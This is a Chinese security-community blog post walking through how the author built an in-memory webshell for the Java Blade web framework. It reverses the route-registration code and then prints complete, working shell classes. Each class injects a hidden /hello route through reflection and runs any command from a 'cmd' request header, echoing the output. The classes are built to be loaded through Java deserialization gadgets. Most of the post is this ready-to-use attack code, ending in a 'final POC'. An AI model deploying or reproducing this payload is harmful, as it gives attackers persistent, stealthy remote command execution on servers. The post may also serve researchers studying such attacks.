# 记从0开始的blade框架内存马挖掘-先知社区

> **来源**: https://xz.aliyun.com/news/18694  
> **文章ID**: 18694

---

## 前言

这个内存马的挖掘的过程有点崎岖，因为之前都是直接用工具生成的内存马，一直没有给自己补过内存马相关原理，这就导致这次挖掘的过程中走了很多弯路，虽然后面还是成功了，但是过程实在太过曲折记录一下。

## 挖掘过程

### 调试分析路由添加流程

由于之前缺少对内存马原理的认知，所以第一步就直接对路由下手了，正常来说应该先获取到request或者response的。

首先看到的是blade框架的主函数



这段代码创建了一个Blade实例，并且启动了web服务器，这个web服务器为Netty。

在这里断点，调试后发现步入了NettyServer类中进行初始化



随后一直跳到parseAndCreate方法中通过调用routeBuilder.addRouter来添加路由。



步入routeBuilder.addRouter方法，该方法对注解进行扫描并交给下面的parseRoute()方法。



parseRoute()方法根据路由信息构建一个Route，并将其放到routeMatcher.addRoute中



进入addRoute方法



代码如下：

```
    Route addRoute(Route route) {
        String path = route.getPath();
        HttpMethod httpMethod = route.getHttpMethod();
        Object controller = route.getTarget();
        Class<?> controllerType = route.getTargetType();
        Method method = route.getAction();
        ResponseType responseType = route.getResponseType();
        return this.addRoute(httpMethod, path, controller, controllerType, method, responseType);
    }

    private Route addRoute(HttpMethod httpMethod, String path, Object controller, Class<?> controllerType, Method method, ResponseType responseType) {
        String originalPath = path;
        path = "*".equals(path) ? "/.*" : path;
        path = path.replace("/**", "/.*").replace("/*", "/.*");
        String key = path + "#" + httpMethod.toString();
        if (this.routes.containsKey(key)) {
            log.warn("\tRoute {} -> {} has exist", path, httpMethod.toString());
        }

        Route route = new Route(httpMethod, originalPath, path, controller, controllerType, method, responseType);
        if (BladeKit.isWebHook(httpMethod)) {
            Order order = (Order)controllerType.getAnnotation(Order.class);
            if (null != order) {
                route.setSort(order.value());
            }

            if (this.hooks.containsKey(key)) {
                ((List)this.hooks.get(key)).add(route);
            } else {
                List<Route> empty = new ArrayList();
                empty.add(route);
                this.hooks.put(key, empty);
            }
        } else {
            this.routes.put(key, route);
        }

        return route;
    }
```

阅读这段代码可以发现route被添加到了routes这个Map中，因此我们需要构造一个route并调用`routeMatcher.addRoute`方法进行添加。

添加完成后又回到NettyServer类中，发现下一步调用了`routeMatcher.register()`方法，跟进去看看这个方法是干啥的。



代码如下：

```
    public void register() {
        this.routes.values().forEach((route) -> {
            BladeKit.logAddRoute(log, route);
        });
        this.hooks.values().stream().flatMap(Collection::stream).forEach((route) -> {
            BladeKit.logAddRoute(log, route);
        });
        Stream.of(this.routes.values(), (Collection)this.hooks.values().stream().findAny().orElse(new ArrayList())).flatMap(Collection::stream).forEach(this::registerRoute);
        this.dynamicMapping.register();
    }

    private void registerRoute(Route route) {
        String path = this.parsePath(route.getPath());
        Matcher matcher = null;
        if (path != null) {
            matcher = PATH_VARIABLE_PATTERN.matcher(path);
        }

        boolean find = false;
        List<String> uriVariableNames = new ArrayList();

        while(matcher != null && matcher.find()) {
            if (!find) {
                find = true;
            }

            String regexName = matcher.group(1);
            String regexValue = matcher.group(2);
            if (regexName != null || regexValue != null) {
                if (StringKit.isBlank(regexName)) {
                    uriVariableNames.add(regexValue);
                } else {
                    uriVariableNames.add(regexName);
                }
            }
        }

        HttpMethod httpMethod = route.getHttpMethod();
        if (!find && !BladeKit.isWebHook(httpMethod)) {
            this.staticMapping.addRoute(path, httpMethod, route);
        } else {
            this.dynamicMapping.addRoute(httpMethod, route, uriVariableNames);
        }

    }
```

这段代码用于路由注册，并依据分类将其分别放入staticMapping以及dynamicMapping中。

至此路由注册完毕。

### 实现动态注册路由

经过分析后，可以发现blade框架是使用routeMatcher.addRoute以及register这俩个方法来注册路由的，因此可以构造一个Route然后反射调用routeMatcher.addRoute和register方法来实现自己注册路由。

构造demo:

```
    static {
        try {

            RouteMatcher realMatcher = new RouteMatcher();
            // 构造你的 Route
            Route route = Route.builder()
                    .httpMethod(HttpMethod.GET)
                    .path("/hello")
                    .target(new blade_shell())
                    .targetType(blade_shell.class)
                    .action(blade_shell.class.getDeclaredMethod("echo"))
                    .build();

            Field field = Route.class.getDeclaredField("responseType");
            field.setAccessible(true);
            field.set(route, ResponseType.EMPTY);

            Method addRoute = RouteMatcher.class.getDeclaredMethod("addRoute", Route.class);
            addRoute.setAccessible(true);
            addRoute.invoke(realMatcher, route);

            Method register = RouteMatcher.class.getDeclaredMethod("register");
            register.setAccessible(true);
            register.invoke(realMatcher);

        } catch (InvocationTargetException | NoSuchMethodException |
                 IllegalAccessException | NoSuchFieldException e) {
            throw new RuntimeException(e);
        }
    }


    public void echo() throws Exception{
        System.out.println("echo");
    }
```

反序列化传入，发现成功调用了addRoute方法以及register方法。





当然这是一个还未完善的代码，访问/hello路由还是会返回404，说明路由并未被注册进去，仔细看看routes以及staticMapping的值





他们都是0，这是因为我们没有获取当前正在执行的Blade实例，因此这个创建操作是基本无效的，因此需要获取当前正在运行的Blade实例，并通过反射获取routeMatcher的值。

这里我采取在运行时的内存里遍历出当前的`Blade`实例，

实现代码如下：(当然这个可以不要太过关注，因为后面会有更简单的方法来替代它)

```
public static Blade findBladeInstance() {  
    for (Map.Entry<Thread, StackTraceElement[]> entry : Thread.getAllStackTraces().entrySet()) {  
        Thread thread = entry.getKey();  
        if (!thread.isAlive()) continue; // 只扫描活跃线程  
        try {  
            Field targetField = Thread.class.getDeclaredField("target");  
            targetField.setAccessible(true);  
            Object target = targetField.get(thread);  
            if (target != null) {  
                Blade blade = findBladeInObject(target, new IdentityHashMap<>());  
                if (blade != null) return blade;  
            }  
        } catch (NoSuchFieldException | IllegalAccessException e) {  
            e.printStackTrace(); // 输出调试信息  
        }  
    }  
    return null;  
}  
  
private static Blade findBladeInObject(Object obj, IdentityHashMap<Object, Boolean> visited) throws IllegalAccessException {  
    if (obj == null || visited.containsKey(obj)) return null;  
    visited.put(obj, Boolean.TRUE);  
  
    if (obj instanceof Blade) return (Blade) obj;  
  
    Class<?> clazz = obj.getClass();  
  
    if (clazz.isPrimitive() || clazz.getName().startsWith("java.")) return null;  
  
    Field[] fields = clazz.getDeclaredFields();  
    for (Field f : fields) {  
        f.setAccessible(true);  
        Object value = f.get(obj);  
        Blade blade = findBladeInObject(value, visited);  
        if (blade != null) return blade;  
    }  
    return null;  
}
```

至此动态注册路由的demo就为如下代码：

```
    static {
        try {
            Blade blade = findBladeInstance();
            if (blade == null) {
                System.err.println("Blade instance not found!");
            }
            // 反射获取 routeMatcher
            Field f = Blade.class.getDeclaredField("routeMatcher");
            f.setAccessible(true);
            RouteMatcher realMatcher = (RouteMatcher) f.get(blade);

            // 构造你的 Route
            Route route = Route.builder()
                    .httpMethod(HttpMethod.GET)
                    .path("/hello")
                    .target(new blade_shell())
                    .targetType(blade_shell.class)
                    .action(blade_shell.class.getDeclaredMethod("echo"))
                    .build();

            Field field = Route.class.getDeclaredField("responseType");
            field.setAccessible(true);
            field.set(route, ResponseType.EMPTY);

            Method addRoute = RouteMatcher.class.getDeclaredMethod("addRoute", Route.class);
            addRoute.setAccessible(true);
            addRoute.invoke(realMatcher, route);

            Method register = RouteMatcher.class.getDeclaredMethod("register");
            register.setAccessible(true);
            register.invoke(realMatcher);

        } catch (InvocationTargetException | NoSuchMethodException |
                 IllegalAccessException | NoSuchFieldException e) {
            throw new RuntimeException(e);
        }
    }


    public void echo() throws Exception{
        Runtime.getRuntime().exec("calc");
    }


    public static Blade findBladeInstance() {
        for (Map.Entry<Thread, StackTraceElement[]> entry : Thread.getAllStackTraces().entrySet()) {
            Thread thread = entry.getKey();
            if (!thread.isAlive()) continue; // 只扫描活跃线程
            try {
                Field targetField = Thread.class.getDeclaredField("target");
                targetField.setAccessible(true);
                Object target = targetField.get(thread);
                if (target != null) {
                    Blade blade = findBladeInObject(target, new IdentityHashMap<>());
                    if (blade != null) return blade;
                }
            } catch (NoSuchFieldException | IllegalAccessException e) {
                e.printStackTrace(); // 输出调试信息
            }
        }
        return null;
    }

    private static Blade findBladeInObject(Object obj, IdentityHashMap<Object, Boolean> visited) throws IllegalAccessException {
        if (obj == null || visited.containsKey(obj)) return null;
        visited.put(obj, Boolean.TRUE);

        if (obj instanceof Blade) return (Blade) obj;

        Class<?> clazz = obj.getClass();

        if (clazz.isPrimitive() || clazz.getName().startsWith("java.")) return null;

        Field[] fields = clazz.getDeclaredFields();
        for (Field f : fields) {
            f.setAccessible(true);
            Object value = f.get(obj);
            Blade blade = findBladeInObject(value, visited);
            if (blade != null) return blade;
        }
        return null;
    }
```

传进去调试可以发现原来的注册的路由都是存在的



访问hello后路由为200并弹出计算器



### 构造回显

可以注册路由后就该让其回显了。

最开始我找的到的是RouteContext，这里面又request和response。



但是后面发现调用有一点困难，并且一直报错就寻找了另外一个类，也就是WebContext。

这个类是在HttpServerHandler中调试时发现的，这里有一个好像啥都没有用到的全局变量，并且通过名字可以猜测其是储存WebContext的。



跳转到WebContext中可以发现其有blade、response等变量，并且拥有全局方法get方法来获得当前的`WebContext`。

因此很容易构造回显的demo，代码如下：

```
    public void exp() throws Exception{
        WebContext context = WebContext.get();
        HttpResponse response = (HttpResponse) context.getResponse();
        Request request = context.getRequest();
        String cmd = request.header("cmd");
        Process process = Runtime.getRuntime().exec(cmd);

        StringBuilder output = new StringBuilder();

        try (BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
             BufferedReader errReader = new BufferedReader(new InputStreamReader(process.getErrorStream()))) {

            String line;
            while ((line = reader.readLine()) != null) {
                output.append(line).append("
");
            }
            while ((line = errReader.readLine()) != null) {
                output.append(line).append("
");
            }
        }

        response.body(output.toString());
    }
```

完整内存马

```
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.IdentityHashMap;
import java.util.Map;

import com.hellokaton.blade.Blade;
import com.hellokaton.blade.annotation.Path;
import com.hellokaton.blade.mvc.RouteContext;
import com.hellokaton.blade.mvc.WebContext;
import com.hellokaton.blade.mvc.http.HttpMethod;
import com.hellokaton.blade.mvc.http.HttpResponse;
import com.hellokaton.blade.mvc.route.Route;
import com.hellokaton.blade.mvc.route.RouteMatcher;
import com.hellokaton.blade.mvc.ui.ResponseType;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import com.hellokaton.blade.mvc.http.Request;

public class blade_shell extends AbstractTranslet {

    static {
        try {
            Blade blade = findBladeInstance();
            if (blade == null) {
                System.err.println("Blade instance not found!");
            }
            
            // 反射获取 routeMatcher
            Field f = Blade.class.getDeclaredField("routeMatcher");
            f.setAccessible(true);
            RouteMatcher realMatcher = (RouteMatcher) f.get(blade);

            // 构造你的 Route
            Route route = Route.builder()
                    .httpMethod(HttpMethod.GET)
                    .path("/hello")
                    .target(new blade_shell())
                    .targetType(blade_shell.class)
                    .action(blade_shell.class.getDeclaredMethod("exp"))
                    .build();

            Field field = Route.class.getDeclaredField("responseType");
            field.setAccessible(true);
            field.set(route, ResponseType.EMPTY);

            Method addRoute = RouteMatcher.class.getDeclaredMethod("addRoute", Route.class);
            addRoute.setAccessible(true);
            addRoute.invoke(realMatcher, route);

            Method register = RouteMatcher.class.getDeclaredMethod("register");
            register.setAccessible(true);
            register.invoke(realMatcher);

        } catch (InvocationTargetException | NoSuchMethodException |
                 IllegalAccessException | NoSuchFieldException e) {
            throw new RuntimeException(e);
        }
    }


    public static Blade findBladeInstance() {
        for (Map.Entry<Thread, StackTraceElement[]> entry : Thread.getAllStackTraces().entrySet()) {
            Thread thread = entry.getKey();
            if (!thread.isAlive()) continue; // 只扫描活跃线程
            try {
                Field targetField = Thread.class.getDeclaredField("target");
                targetField.setAccessible(true);
                Object target = targetField.get(thread);
                if (target != null) {
                    Blade blade = findBladeInObject(target, new IdentityHashMap<>());
                    if (blade != null) return blade;
                }
            } catch (NoSuchFieldException | IllegalAccessException e) {
                e.printStackTrace(); // 输出调试信息
            }
        }
        return null;
    }

    private static Blade findBladeInObject(Object obj, IdentityHashMap<Object, Boolean> visited) throws IllegalAccessException {
        if (obj == null || visited.containsKey(obj)) return null;
        visited.put(obj, Boolean.TRUE);

        if (obj instanceof Blade) return (Blade) obj;

        Class<?> clazz = obj.getClass();

        if (clazz.isPrimitive() || clazz.getName().startsWith("java.")) return null;

        Field[] fields = clazz.getDeclaredFields();
        for (Field f : fields) {
            f.setAccessible(true);
            Object value = f.get(obj);
            Blade blade = findBladeInObject(value, visited);
            if (blade != null) return blade;
        }
        return null;
    }


    public void exp() throws Exception{
        WebContext context = WebContext.get();
        HttpResponse response = (HttpResponse) context.getResponse();
        Request request = context.getRequest();
        String cmd = request.header("cmd");
        Process process = Runtime.getRuntime().exec(cmd);

        StringBuilder output = new StringBuilder();

        try (BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
             BufferedReader errReader = new BufferedReader(new InputStreamReader(process.getErrorStream()))) {

            String line;
            while ((line = reader.readLine()) != null) {
                output.append(line).append("
");
            }
            while ((line = errReader.readLine()) != null) {
                output.append(line).append("
");
            }
        }

        response.body(output.toString());
    }


    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

}


```

执行命令并且成功回显。



当然因为WebContext里面有Blade实例，因此可以直接使用blade方法去调用，就不需要从内存中遍历出来了，内存马也可以再一次减短。

## 最终POC

```
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.IdentityHashMap;
import java.util.Map;

import com.hellokaton.blade.Blade;
import com.hellokaton.blade.annotation.Path;
import com.hellokaton.blade.mvc.RouteContext;
import com.hellokaton.blade.mvc.WebContext;
import com.hellokaton.blade.mvc.http.HttpMethod;
import com.hellokaton.blade.mvc.http.HttpResponse;
import com.hellokaton.blade.mvc.route.Route;
import com.hellokaton.blade.mvc.route.RouteMatcher;
import com.hellokaton.blade.mvc.ui.ResponseType;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import com.hellokaton.blade.mvc.http.Request;

public class blade_shell extends AbstractTranslet {

    static {
        try {
            WebContext context = WebContext.get();
            Blade blade = context.blade();
            // 反射获取 routeMatcher
            Field f = Blade.class.getDeclaredField("routeMatcher");
            f.setAccessible(true);
            RouteMatcher realMatcher = (RouteMatcher) f.get(blade);

            // 构造你的 Route
            Route route = Route.builder()
            .httpMethod(HttpMethod.GET)
            .path("/hello")
            .target(new blade_shell())
            .targetType(blade_shell.class)
            .action(blade_shell.class.getDeclaredMethod("exp"))
            .build();

            Field field = Route.class.getDeclaredField("responseType");
            field.setAccessible(true);
            field.set(route, ResponseType.EMPTY);

            Method addRoute = RouteMatcher.class.getDeclaredMethod("addRoute", Route.class);
            addRoute.setAccessible(true);
            addRoute.invoke(realMatcher, route);

            Method register = RouteMatcher.class.getDeclaredMethod("register");
            register.setAccessible(true);
            register.invoke(realMatcher);

        } catch (InvocationTargetException | NoSuchMethodException |
                 IllegalAccessException | NoSuchFieldException e) {
            throw new RuntimeException(e);
        }
    }

    public void exp() throws Exception{
        WebContext context = WebContext.get();
        HttpResponse response = (HttpResponse) context.getResponse();
        Request request = context.getRequest();
        String cmd = request.header("cmd");
        Process process = Runtime.getRuntime().exec(cmd);

        StringBuilder output = new StringBuilder();

        try (BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
             BufferedReader errReader = new BufferedReader(new InputStreamReader(process.getErrorStream()))) {

            String line;
            while ((line = reader.readLine()) != null) {
                output.append(line).append("
");
            }
            while ((line = errReader.readLine()) != null) {
                output.append(line).append("
");
            }
        }
        response.body(output.toString());
    }


    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

}
```
